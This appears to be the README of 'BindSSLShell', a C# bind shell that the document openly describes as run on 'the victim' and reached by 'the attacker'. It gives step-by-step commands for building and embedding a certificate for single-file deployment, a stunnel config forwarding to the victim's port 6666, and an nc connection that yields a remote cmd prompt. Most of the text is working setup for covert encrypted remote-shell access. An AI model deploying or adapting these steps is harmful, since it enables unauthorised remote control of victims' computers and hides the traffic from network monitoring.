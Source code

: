 # BindSSLShell
How to BSOS [Bindshell over SSL] ver 1.0

* -Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
* -Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)
1. create the certificate:
   1. move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
   1. open a cmd as administrator and execute the following: makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
   1. enter required password, then execute: pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx. Enter required server password
1. include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy. Eventually you can embed the certificate and load it at runtime, more info: https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file, so you will have to deploy a single file.
<br/>	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc
1 install stunnel:
	apt-get install stunnel

2 configure stunnel to forward nc traffic over his ssl tunnel. we must create the file /etc/stunnel/stunnel.conf with the following content:
	[nc]
	client = yes
	accept = localhost:8443
	connect = <Victim IP>:6666
	--- end of file ---
	so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
3 start stunnel
	service stunnel4 start
		
4 check if it's running (optional)
	# netstat -tulp
	
	the output should be similar to:
	
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

5 presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	nc localhost 8443
	
6 you should get a cmd prompt
	


	



![...](img/shel_ssl.png?raw=true)
